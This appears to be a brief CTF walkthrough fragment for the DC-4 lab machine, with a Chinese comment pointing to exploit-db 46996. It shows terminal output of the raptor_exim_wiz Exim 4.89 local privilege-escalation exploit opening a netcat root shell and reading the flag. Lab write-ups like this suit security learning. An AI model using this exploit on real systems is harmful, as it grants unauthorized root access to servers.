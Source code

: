 

直接搞下来 exploit-db.com 46996号 直接用呗

```bash
jim@dc-4:~$ ./exp.sh -m netcat

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Delivering netcat payload...
220 dc-4 ESMTP Exim 4.89 Mon, 25 Jan 2021 16:34:02 +1000
250 dc-4 Hello localhost [::1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1l3vRq-0000HP-OZ
221 dc-4 closing connection

Waiting 5 seconds...
localhost [127.0.0.1] 31337 (?) open
ls
db
gnutls-params-2048
input
msglog
whoami
root
cd /root
ls
flag.txt
cat flag.txt



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.


```

SUCCESS!!!!!
